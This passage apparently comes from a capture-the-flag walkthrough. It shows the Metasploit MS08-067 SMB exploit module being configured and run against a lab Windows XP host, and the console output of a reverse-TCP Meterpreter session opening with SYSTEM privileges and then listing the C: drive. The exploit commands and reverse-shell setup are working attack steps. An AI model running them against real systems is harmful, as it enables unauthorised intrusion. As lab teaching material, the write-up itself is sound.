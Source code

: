 ```
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting
```

Execute the exploit with the `run` command:

```
msf6 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.16.8:4444  
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (177734 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.16.8:4444 -> 10.10.10.4:1037) at 2025-03-08 14:03:00 -0500
```

Once the exploit succeeds, a Meterpreter session is established. Verify the privileges and explore the system:

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > pwd
C:\WINDOWS\system32

meterpreter > cd ../../
meterpreter > dir
Listing: C:\
============

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
100777/rwxrwxrwx  0       fil   2017-03-16 01:30:44 -0400  AUTOEXEC.BAT
100666/rw-rw-rw-  0       fil   2017-03-16 01:30:44 -0400  CONFIG.SYS
040777/rwxrwxrwx  0       dir   2017-03-16 02:07:20 -0400  Documents and Settings
100444/r--r--r--  0       fil   2017-03-16 01:30:44 -0400  IO.SYS
100444/r--r--r--  0       fil   2017-03-16 01:30:44 -0400  MSDOS.SYS
100555/r-xr-xr-x  47564   fil   2008-04-13 16:13:04 -0400  NTDETECT.COM
040555/r-xr-xr-x  0       dir   2017-12-29 15:41:18 -0500  Program Files
040777/rwxrwxrwx  0       dir   2017-03-16 01:32:59 -0400  System Volume Information
040777/rwxrwxrwx  0       dir   2022-05-18 08:10:06 -0400  WINDOWS
100666/rw-rw-rw-  211     fil   2017-03-16 01:26:58 -0400  boot.ini
100444/r--r--r--  250048  fil   2008-04-13 18:01:44 -0400  ntldr
000000/---------  0       fif   1969-12-31 19:00:00 -0500  pagefile.sys

```
